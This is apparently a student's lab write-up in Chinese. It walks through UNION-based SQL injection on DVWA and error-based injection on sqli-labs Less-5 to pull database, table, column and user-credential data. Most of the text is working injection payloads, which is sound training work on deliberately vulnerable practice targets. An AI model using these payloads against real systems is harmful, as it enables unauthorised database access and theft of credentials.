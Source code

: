 ## 1.完成dvwa靶场的union注入实验，获取guestbook表中的所有数据

### 查询数据库名

```sql
1' union select version(),database()#
```

![image-20221014140539386](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014140539386.png)

### 查询表名

```sql
-1' union select 1, table_name COLLATE utf8_general_ci from information_schema.tables where table_schema = 'dvwa'#
```

> - 使用-1可以使原来的查询语句无法查询到结果，方便查看注入消息
>
> - 加上`COLLATE utf8_general_ci`的原因是使用union查询要保证字段编码的相同，如果不相同会报错`Illegal mix of collations for operation 'UNION'`
>
>   ![image-20221014141506388](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014141506388.png)

![image-20221014141641881](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014141641881.png)

### 查询表内字段名

```sql
-1' union select 1, group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name = 'users' and table_schema = 'dvwa'#
```

![image-20221014152833050](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014152833050.png)

### 查询users表内容

```sql
-1' union select 1, group_concat(concat_ws('_',user_id,first_name,last_name,user,password,avatar,last_login,failed_login) separator ';') COLLATE utf8_general_ci from dvwa.users#
```

![image-20221014152942488](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014152942488.png)

## 2.完成sqli靶场中的less 5的报错注入实验，获取数据库中的记录。

### 查询数据库名

```
http://192.168.10.89/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```

### 查询表名

```
http://192.168.10.89/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)%23
```

![image-20221014153624229](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014153624229.png)

### 查询users表内字段名（同理可查看其他表）

```
http://192.168.10.89/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'),0x7e),1)%23
```

![image-20221014154355926](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014154355926.png)

### 查询字段内容

```
http://192.168.10.89/sqli-labs/Less-5/?id=1%27%20and%20updatexml(1,concat(0x7e,substr((select%20group_concat(concat_ws(%27_%27,id,username,password))%20from%20security.users),1,32),0x7e),1)%23
```

![image-20221014154804912](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221014154804912.png)